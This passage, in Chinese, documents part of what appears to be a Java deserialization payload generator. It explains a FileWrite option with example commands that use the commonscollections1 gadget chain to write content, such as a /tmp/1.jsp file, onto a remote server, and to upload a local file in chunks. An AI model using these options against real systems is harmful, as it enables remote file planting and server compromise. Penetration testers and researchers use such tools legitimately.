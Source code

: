 + `-ctor` 指定需要参数的构造方法，支持 `Int | String` 类型

![image-20240423103622803](attachments/image-20240423103622803.png)

## FileWrite 文件写入

```
-e FileWrite
-sfp
-lfp
-fc
-append
-split
-part
```

+ `-sfp` 指定写入远程文件的地址
+ `-fc` 指定需要写入的内容
+ `-lfp` 从本地读取文件
+ `-append` 追加写入文件

eg. `-g commonscollections1 -e FileWrite -sfp /tmp/1.jsp -fc 123456`

![image-20240419134742086](attachments/image-20240419134742086.png)

`-append` 追加写入

![image-20240419143818623](attachments/image-20240419143818623.png)

`-split` 设置文件分片后生成， `-part` 指定每个分片的大小，默认 100kb。不过该功能不建议用在 `TemplatesImpl` 增强的链，用 Base64 编码只能分片很小。

eg. `-g commonscollections1 -e FileWrite -sfp /tmp/itest -lfp /tmp/iox -split -part 1000`
